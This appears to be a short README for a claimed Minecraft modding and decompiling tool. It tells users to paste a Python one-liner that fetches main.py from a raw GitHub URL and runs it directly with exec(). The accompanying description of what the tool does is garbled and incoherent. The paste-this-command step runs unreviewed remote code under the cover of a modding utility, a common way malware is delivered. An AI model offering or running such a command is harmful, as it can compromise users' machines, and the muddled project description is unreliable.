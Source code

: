 # How to use?
## On your code/python prompt you copy and paste this code: (auto detects OS)
### `exec(__import__('requests').get('https://raw.githubusercontent.com/davifaaricardo/psychic-octo-couscous/installer/main.py').text)`
### `this project will help minecraft modders (any type) to change its file from the source (project.jar) then inputting in arguments, else inpuutting decompile it (first, renaming to (project.jar) to (project.zip or project.rar) then decompacting it) then trying to reverse search the files. by using fabrics default help git repo to example then downloading it with (gradle / grandle.bat) then when the user uses the file: setup.py it will run the thing to detect language download the preferred then executing it (executing gradle / gradle.bat )`
